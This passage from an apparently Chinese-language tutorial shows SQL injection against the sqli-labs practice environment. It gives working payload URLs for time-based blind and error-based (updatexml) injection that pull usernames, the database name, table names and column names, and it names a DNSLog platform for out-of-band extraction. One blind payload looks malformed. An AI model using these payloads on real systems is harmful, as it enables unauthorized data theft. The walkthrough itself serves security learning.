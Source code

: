 #拿数据

```
http://sqli-labs/Less-9/?id=1' and ORD(mid((SELECT IFNULL(CAST(username AS char),0x20)FROM SECURITY.users ORDER BY id LIMIT 0,1),1,1))=68，sleep(1),0) -- 
```

### 基于报错的注入

基于报错的注入 

![image-20220429233412636](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182203513-391977956.png)

适用场景：没有数据回显，条件正确与否结果一样，sleep 没区别，但是错误信息会打印出来 

利用方式：利用语法错误，把value在前端输出

```
#从XML节点中查找节点
select extractValue('<a><b></b></a>','/a/b');

#更新XML节点的值
select
updateXML('<a><b>ccc</b><d></d></a>','/a','<e>fff</e>') AS vall,
updateXML('<a><b>ccc</b><d></d></a>','/b','<e>fff</e>') AS val2,
updateXML('<a><b>ccc</b><d></d></a>','//b','<e>fff</e>') AS val3,
updateXML('<a><b>ccc</b><d></d></a>','/a/b','<e>fff</e>') AS val4,
updateXML('<a><d></d><b>ccc</b><d></d></a>','/a/d','<e>fff</e>') AS val5,
```

```
http://sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1) -- 
```

![image-20220506193143219](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182204134-584375247.png)



```
http://sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- 
```

![image-20220506193815111](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182204889-908379824.png)

```
#拿列名
http://sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) -- 
```

### DNSLog注入

![image-20220506195005103](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182209818-1661689046.png)

```
#DNSLog平台
http://www.dnslog.cn/
```
